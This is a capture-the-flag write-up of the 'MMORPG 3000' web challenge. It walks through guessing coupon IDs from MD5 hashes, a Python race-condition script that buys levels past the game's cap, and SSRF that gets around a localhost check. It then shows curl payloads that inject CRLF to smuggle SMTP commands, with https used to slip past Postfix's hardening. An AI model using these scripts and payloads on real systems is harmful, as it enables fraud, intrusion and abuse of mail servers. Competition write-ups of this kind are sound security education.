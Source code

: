 # MMORPG 3000 (web, 2 solved, 470p)

We failed to get the flag during the CTF, but only because we missed a funny `hardening` of postfix mail server at the very end of the task.
It might still be useful to provide the description of the intermediate steps, because the challenge had quite a few.

## Analysis

In the task we gain access to a webpage where we can battle other players and gain experience, and in the process also gain levels.
There is also `donate` page where we can provide details for a `coupon`, and by using such coupon we can gain money.
With money we can buy levels in the game.
Classic pay-to-win scenario.

We get a free coupon to start with, so we have some data for analysis.
When we `use` a coupon, we get intermediate stage, with coupon details in the cookie, and the coupon picture is displayed on the page.

## Getting money

We can't change the data of the coupon in cookie, since it's signed, but we can try to figure out how the codes are generated.
Last part of the coupon picture link is some 16 byte hexstring.
If we proceed to treat this as a hash and break it, we get a nice small integer back! 
If we look at link for coupon with id `1` for link http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/storage/img/coupon_c4ca4238a0b923820dcc509a6f75849b.png we get a nice:

![](coupon.png)

It's worth 1337 coins, and so are next few low-id coupons.

## Getting high level

Once we start buying levels it caps at 30 and the error says you can't go past that.
But we guess that maybe there is some race condition here, and maybe it's possible to go above 30.
With a new account we get some money and prepared 2 separate sessions and run a race script:

```python
import threading

import requests
from queue import Queue

max = 100
threads = Queue()
init_barrier = threading.Barrier(max * 2)


def lvlup(cookie):
    threads.get()
    init_barrier.wait()
    url = "http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/donate/lvlup"
    r = requests.get(url, cookies={"session": cookie})
    threads.task_done()


def worker2(index):
    lvlup("eyJ1aWQiOjUyOH0.DjXY-g.qjbHf51nmM7SzUbzkS_Ghu3vzxk")


def worker(index):
    lvlup("eyJ1aWQiOjUyOH0.DjXY2Q.76b4qhlA72cQ0CygdmkvhTJEdFI")


def race():
    for i in range(max):
        thread = threading.Thread(target=worker, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max):
        thread = threading.Thread(target=worker2, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max * 2):
        threads.put(i)
    threads.join()


race()
```

We basically fire 100 threads for each of 2 sessions and try to buy level with them.
We managed to get lvl 31 on one account and 32 on another, which is above 30, so it worked fine.
Once this is done a new link appears in the user profile page - upload your avatar.
We can either upload a local file, which was broken for large part of the CTF, or provide a link and server downloads the picture via python urllib.
The latter option means we actually have SSRF!

## SSRF

It took us a while to figure out what we could do with SSRF here.
We noticed there is some lousy check for passing `localhost` or `127.0.0.1`, but it could be easily bypassed using dns resolving to localhost or just using `127.0.0.2`.
This poined us into the direction of requesting something from localhost, but we didn't know what, and only `http` and `https` scheme was supported.
To make matters worse we could not see any echo, if the result was not a picture.
We could, however, see when certain link was `down`.

We used this to `port scan` the local machine, and we found out that port `25` was available.
This pointed us to similar idea as in https://github.com/p4-team/ctf/tree/master/2017-12-09-seccon-quals/web_sqlsrf task where we were supposed to send email using HTTP header injection.

We tested this locally, and it seemed just fine, we could inject headers via newlines/carrige returns in the link, and therefore we could pass SMTP commands.
So we tried sending:

```
curl 'web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar' -H 'Cookie: session=eyJ1aWQiOjE2NX0.DjfNgg.FM5Rbzw1uSiBvKx5L7YUoFpJsGk' --data 'url=http://127.0.0.2%0d%0aHELO 127.0.0.2%0aMAIL FROM: <A@B.C>%0aRCPT TO: <SHALOM@P4.TEAM>%0aDATA%0aFROM: AAA@B.C%0aTO: SHALOM@P4.TEAM%0aSUBJECT: GIB%0d%0a.%0d%0a%0aQUIT%0a:25&action=save'
```

But for some reason we got no emails from the server...

Our mistake was missing the special case implemented in postfix:

```c
#define DEF_SMTPD_FORBID_CMDS    "CONNECT GET POST"

        /* Ignore smtpd_forbid_cmds lookup errors. Non-critical feature. */
        if (cmdp->name == 0) {
        state->where = SMTPD_CMD_UNKNOWN;
        if (is_header(argv[0].strval)
            || (*var_smtpd_forbid_cmds
         && string_list_match(smtpd_forbid_cmds, argv[0].strval))) {
                msg_warn("non-SMTP command from %s: %.100s",
                     state->namaddr, vstring_str(state->buffer));
                smtpd_chat_reply(state, "221 2.7.0 Error: I can break rules, too. Goodbye.");
                break;
            }
        }

```

There is a hardening which targets exactly what we wanted to do - using HTTP request with injected headers to smuggle SMTP commands.
The way to bypass this was to use `https` instead of `http`, because in such case the initial part of the request will actually be encrypted, and SMTP will ignore it, and the Host will be in plaintext so the server will receive nice set of SMTP commands.
So is we instead send:

```
curl 'web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar' -H 'Cookie: session=eyJ1aWQiOjE2NX0.DjfNgg.FM5Rbzw1uSiBvKx5L7YUoFpJsGk' --data 'url=https://127.0.0.2%0d%0aHELO 127.0.0.2%0aMAIL FROM: <A@B.C>%0aRCPT TO: <SHALOM@P4.TEAM>%0aDATA%0aFROM: AAA@B.C%0aTO: SHALOM@P4.TEAM%0aSUBJECT: GIB%0d%0a.%0d%0a%0aQUIT%0a:25&action=save'
```

We get a nice email with:

```
Message-ID: <20180722213651.1119A1F05FA9@flag.ctfzone.1640392aaf27597150c97e04a99a6f08.localdomain>
```

And the flag is `ctfzone{1640392aaf27597150c97e04a99a6f08}`

